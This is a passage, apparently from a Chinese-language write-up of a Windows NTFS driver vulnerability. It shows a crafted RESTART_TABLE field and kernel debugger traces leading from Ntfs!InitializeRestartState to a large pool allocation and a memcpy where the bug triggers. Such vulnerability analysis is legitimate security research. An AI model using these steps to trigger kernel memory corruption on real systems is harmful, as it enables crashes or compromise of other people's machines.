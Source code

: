 ```
  lpRestartTable->LastFree = 0x0;
```

  
当我们正确构造 
```
RESTART_TABLE
```

  
结构后，
```
ntfs!ReadRestartTable
```

  
函数应能成功执行，并到达以下代码：  

```
1: kd> p
rax=0000000000000001 rbx=0000000000000000 rcx=0000000000000210
rdx=00000000fffdedcf rsi=ffff8002cbf1b668 rdi=00000000fffdedcf
rip=fffff8011ea23be3 rsp=fffffa07e414eac0 rbp=fffffa07e414f8e0
 r8=000000005246744e  r9=0000000000000001 r10=fffff80119ca9cc0
r11=fffffa07e414ea50 r12=fffffa07e414ed50 r13=ffff8002d0ddf4f0
r14=0000000000000001 r15=ffff8002d0ddf1b0
iopl=0         nv up ei pl nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040202
Ntfs!InitializeRestartState+0xb17:
fffff801`1ea23be3 e8d86028fb      call    nt!ExAllocatePoolWithTag (fffff801`19ca9cc0)
```

  
为了成功分配足够的虚拟内存（**rdx=fffdedcfh**  
），目标虚拟机必须拥有足够的虚拟内存，否则漏洞将无法被触发。  
  
在 
```
nt!ExAllocatePoolWithTag
```

  
成功分配请求的内存后，我们将到达目标 
```
memmove
```

  
函数。  

```
1: kd> p
rax=0000000000000000 rbx=ffffd48000000000 rcx=ffffd48000000000
rdx=ffff92079effd460 rsi=ffffd48f02609018 rdi=00000000fffdedcf
rip=fffff800544d3c1e rsp=fffffe879829fac0 rbp=fffffe87982a08e0
 r8=00000000fffdedcf  r9=0000000000000062 r10=00000000ffffffff
r11=0000000000030c90 r12=fffffe879829fd50 r13=ffffd48f027ed4f0
r14=0000000000000001 r15=ffffd48f027ed1b0
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040246
Ntfs!InitializeRestartState+0xb52:
fffff800`544d3c1e e8dd59e8ff      call    Ntfs!memcpy (fffff800`54359600)
```
